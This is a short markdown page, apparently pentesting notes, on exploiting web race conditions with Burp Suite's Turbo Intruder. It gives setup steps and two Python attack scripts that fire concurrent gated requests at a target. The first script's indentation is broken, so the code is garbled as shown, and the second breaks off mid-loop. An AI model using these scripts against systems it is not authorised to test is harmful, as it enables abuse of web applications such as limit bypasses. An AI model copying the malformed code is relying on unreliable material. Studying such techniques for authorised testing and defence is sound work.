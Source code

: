 # Race Condition
Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language.

## Turbo Intruder - Examples 1
1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=30,
                        requestsPerConnection=30,
                        pipeline=False
                        )

for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```
3. Now set the external HTTP header x-request: %s - ⚠️ This is needed by the turbo intruder
4. Click "Attack"

## Turbo Intruder 2 Requests - Examples 2
This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.
```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
```
